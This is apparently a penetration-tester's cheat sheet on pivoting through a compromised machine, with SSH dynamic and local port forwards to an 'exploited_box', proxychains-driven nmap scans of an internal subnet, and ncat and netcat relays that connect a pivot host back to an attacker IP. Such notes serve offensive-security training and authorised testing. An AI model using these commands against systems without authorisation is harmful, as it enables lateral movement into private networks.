 ### dynamic port forward

```
ssh -N -D <address to bind to>:<port to bind to> <username>@<SSH server address>
sudo ssh -N -D 127.0.0.1:8080 root@exploited_box
cat /etc/proxychains.conf
socks4    127.0.0.1   8080
sudo proxychains nmap --top-ports=20 -sT -Pn subnet_box_accessed_via_exploited_box

```


### General port forwarding
```
ssh -N -L [bind_address:]port:host:hostport [username@address]
sudo ssh -N -L 0.0.0.0:445:TARGET.IP.ADDRESS:445 root@exploited_box
```

### Windows samba share
```
sudo nano /etc/samba/smb.conf
min protocol = SMB2
sudo /etc/init.d/smbd restart
smbclient -L 127.0.0.1 -U Administrator
```

### Ncat HTTP proxy

    $ ncat -vv --listen 3128 --proxy-type http

### Ncat Port Forwarder

#### On attacker machine:

    $ ncat -lv --broker -m2 <port>

#### On pivot machine:

    $ ncat -v <attacker_ip> <attacker_port> -c "ncat -v <host_to_pivot_to> <port_on_final_target"

### Netcat Port Forwarder

#### On pivot machine:

    mknod pivot p
    nc -l -p <port_to_listen_on> 0<pivot | nc <ip_to_pivot_to> <port_to_pivot_to> 1>pivot

### Proxychains Setup

#### Install and configure proxychains

    tail /etc/proxychains.conf
    #socks4 	127.0.0.1 9050
    http 172.21.0.3  3128
    #<type: http/socks4/socks5> <proxy_host> <proxy_port>


#### See also:

- HTTPTunnel-ing Through Deep Packet Inspection
- NETSH
- plink.exe
- SSH remote port forwarding
- SSH local port forwarding
- RINETD
- socat
- SShuttle
- cntlm
- netsh port forwarding
- [0xdf blog](https://0xdf.gitlab.io/2019/01/28/pwk-notes-tunneling-update1.html)
- [HighonCoffee](https://highon.coffee/blog/ssh-meterpreter-pivoting-techniques/)
